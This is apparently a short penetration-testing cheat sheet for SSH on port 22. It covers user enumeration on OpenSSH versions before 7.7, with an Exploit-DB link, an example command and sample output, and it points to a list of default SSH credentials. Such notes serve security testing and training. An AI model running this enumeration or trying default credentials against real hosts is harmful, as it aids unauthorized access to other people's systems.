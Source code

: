 # 22, SSH

## Username enumeration
If the SSH version is OpenSSH < 7.7 you can enumerate users on the machine. 

### Exploit
https://www.exploit-db.com/exploits/45233

### Example command
```
$ python 45233.py --port [port] --username [username] [IP]
```

### Example output
```
$ python 45233.py --port 22 --username root 10.10.10.10
root is a valid user!
$ python 45233.py --port 22 --username james 10.10.10.10
james is not a valid user!
```
  
## Default credentials
There could be accounts on the machine that have default credentials.

### Default credentials list
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt
